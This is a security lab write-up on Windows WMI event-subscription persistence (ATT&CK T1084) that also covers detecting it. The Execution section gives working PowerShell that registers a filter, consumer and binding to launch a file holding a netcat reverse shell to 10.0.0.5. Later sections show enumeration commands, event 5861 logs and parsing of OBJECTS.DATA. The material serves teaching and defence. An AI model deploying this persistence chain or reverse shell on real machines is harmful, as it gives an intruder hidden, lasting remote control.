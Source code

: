 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1084: Abusing Windows Managent Instrumentation

WMI events are made up of 3 key pieces:

* event filters - conditions that the system will listen for \(i.e on new process created, on new disk added, etc.\)
* event consumers - consumers can carry out actions when event filters are triggered \(i.e run a program, log to a log file, execute a script, etc.\)
* filter to consumer bindings - the gluing matter that marries event filters and event consumers together in order for the event consumers to get invoked.

WMI Events can be used by both offenders \(persistence, i.e launch payload when system is booted\) as well as defenders \(kill process evil.exe on its creation\).

## Execution

Creating `WMI __EVENTFILTER`, `WMI __EVENTCONSUMER` and `WMI __FILTERTOCONSUMERBINDING`:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
# WMI __EVENTFILTER
$wmiParams = @{
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}

$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 1200"
}
$filterResult = Set-WmiInstance @wmiParams

# WMI __EVENTCONSUMER
$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    ExecutablePath = "C:\shell.cmd"
}
$consumerResult = Set-WmiInstance @wmiParams

#WMI __FILTERTOCONSUMERBINDING
$wmiParams.Class = '__FilterToConsumerBinding'
$wmiParams.Arguments = @{
    Filter = $filterResult
    Consumer = $consumerResult
}

$bindingResult = Set-WmiInstance @wmiParams
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note that the `ExecutablePath` property of the `__EVENTCONSUMER` points to a rudimentary netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note the process ancestry of the shell - as usual, wmi/winrm spawns processes from `WmiPrvSE.exe`:

![](../../.gitbook/assets/wmi-shell-system.png)

On the victim/suspected host, we can see all the regsitered WMI event filters, event consumers and their bindings and inspect them for any malicious intents with these commands:

{% code-tabs %}
{% code-tabs-item title="\_\_EventFilter@victim" %}
```csharp
Get-WmiObject -Class __EventFilter -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note the `Query` property suggests this wmi filter is checking system's uptime every 5 seconds and is checking if the system has been up for at least 1200 seconds:

![](../../.gitbook/assets/wmi-filter.png)

Event consumer, suggesting that the `shell.cmd` will be executed upon invokation as specified in the property `ExecutablePath`:

{% code-tabs %}
{% code-tabs-item title="\_\_EventConsumer@victim" %}
```csharp
Get-WmiObject -Class __EventConsumer -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/wmi-consumer.png)

{% code-tabs %}
{% code-tabs-item title="\_\_FilterToConsumerBinding@victim" %}
```csharp
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/wmi-binding.png)

Microsoft-Windows-WMI-Activity/Operational contains logs for event `5861` that capture event filter and event consumer creations on the victim system:

![](../../.gitbook/assets/wmi-filter-consumer-creation.png)

## Inspection

If you suspect a host to be compromised and you want to inspect any `FilterToConsumer` bindings, you can do it with PSRemoting and the commands shown above or you can try getting the file`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA`

Then you can use [PyWMIPersistenceFinder.py](https://github.com/davidpany/WMI_Forensics) by David Pany to parse the `OBJECTS.DATA` file and get a list of bindings like:

```bash
./PyWMIPersistenceFinder.py OBJECTS.DATA
```

![](../../.gitbook/assets/wmi-parser.png)

### Strings + Grep

If you are limited to only the native \*nix/cygwin utils you have to hand, you can get a pretty good insight into the bindings with the following command:

```csharp
strings OBJECTS.DATA | grep -i filtertoconsumerbinding -A 3 --color
```

Below are the results:

![](../../.gitbook/assets/wmi-strings-grep.png)

From the above graphic, we can easily see that one binding connects two evils - the evil consumer and the evil filter.

Now that you know that you are dealing with `evil` filter and `evil` consumer, use another rudimentary piped command to look into the evil further:

```csharp
strings OBJECTS.DATA | grep -i 'evil' -B3 -A2 --color
```

Note how we can get a pretty decent glimpse into the malicious WMI persistence even with simple tools to hand - note the `C:\shell.cmd`and `SELECT * FROM` ... - if you recall, this is what we put in our consumers and filters at the very [beginning](./#execution) of the lab:

![](../../.gitbook/assets/wmi-strings-grep2.png)

Based on the research by [Matthew Graeber](https://twitter.com/mattifestation) and other great resources listed below: 

{% embed url="https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/" %}

{% embed url="https://www.youtube.com/watch?v=0SjMgnGwpq8" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1084" %}

{% embed url="https://www.darkoperator.com/blog/2013/1/31/introduction-to-wmi-basics-with-powershell-part-1-what-it-is.html" %}

{% embed url="https://pentestarmoury.com/2016/07/13/151/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/aa394084%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://www.eideon.com/2018-03-02-THL03-WMIBackdoors/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/embedded/aa940177\(v=winembedded.5\)" %}

